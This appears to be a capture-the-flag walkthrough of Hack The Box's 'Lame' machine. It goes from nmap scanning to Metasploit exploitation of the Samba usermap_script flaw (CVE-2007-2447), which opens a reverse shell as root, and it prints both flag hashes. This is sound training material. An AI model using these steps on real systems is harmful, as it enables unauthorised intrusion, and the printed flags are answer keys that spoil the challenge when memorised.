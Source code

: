 [Lame](https://app.hackthebox.com/machines/1) | Cyanyde
=======================================================

 Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

### How many of the nmap top 1000 TCP ports are open on the remote host?

<code>nmap \<target ip> --top-ports 1000</code> returns:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **4** of the top 1000 ports open on our target machine

### What version of VSFTPd is running on Lame?

<code>nmap -sV \<target ip></code> returns the service version running on each port:

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

> **vsftpd 2.3.4** is running on tcp port 21

### There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

- <code>searchsploit vsftpd 2.3.4</code> shows us that there is a Backdoor Command Execution exploit with a Metasploit module associated with it
- Running `msfconsole` and using <code>search vsftpd 2.3.4</code> shows us that there is 1 module that matches our service version
    - `use 0` or `use exploit/unix/ftp/vsftpd_234_backdoor` will select this module from our search results
    - `show options` will show us the configurable options for this module
    - `set RHOSTS` to the target IP
    - *This module does not support check*
    - `run` or `exploit` to begin launch exploit
    - Returned error: `[*] Exploit completed, but no session was created.`

> vsFTPd backdoor exploit does not work on this host (**no**)

### What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".

- Looking back at our `nmap -sV` results, specific Samba version is not listed
- We can use the `auxiliary/scanner/smb/smb_version` module in Metasploit to find our Samba version
    - `set RHOSTS` to target IP
    - `exploit` or `run` to start

> Our Metasploit module returns Samba **3.0.20**-Debian

### What 2007 CVE allows for remote code execution in this version of Samba via shell metacharacters involving the `SamrChangePassword` function when the "username map script" option is enabled in `smb.conf`?

- `searchsploit samba 3.0.20 -v -www` gives us a link to the [exploit](https://www.exploit-db.com/exploits/16320) on exploit-db.com

> This exploit is **CVE-2007-2447**

### Exploiting CVE-2007-2447 returns a shell as which user?

- Since we discovered a Metasploit module correlated to this CVE, we can leverage it to gain access
    - `search samba 3.0.20` within Metasploit and `use 0` since it is the first result or `use exploit/multi/samba/usermap_script`
    - `set RHOSTS` to target IP and `set RPORT` if necessary
    - `set LHOST` to attack machine IP or VPN IP
    - `run` or `exploit` to start
    - Command shell opened

> `whoami` returns **root**

### Submit the flag located in the makis user's home directory.

- `cd /home/makis` to change into makis' home directory
- `ls -a` to display all files within the directory

>  <details><summary><code>cat user.txt</code> to get the flag: </summary>4411c9e40952e55e551ddadb1ea91542</details>

### Submit the flag located in root's home directory.

- `cd /root` to change into root's directory
- `ls -a` to display all files within directory

>  <details><summary><code>cat root.txt</code> to get the flag: </summary>12814c6f2e2b78b128f42708d0619da9</details>

### Our initial nmap scan showed four open TCP ports. Running netstat -tnlp shows many more ports listening, including ones on 0.0.0.0 and the boxes external IP, so they should be accessible. What must be blocking connection to these ports?

> Since the ports listed (including the port that VSFTPd was running on) are open and listening, our connection to those ports are likely blocked by a **firewall**

### When the VSFTPd backdoor is trigger, what port starts listening?

- The box points to [this](https://www.exploit-db.com/exploits/49757) exploit

> The code uses the function `Telnet(host, 6200)` to open port **6200**
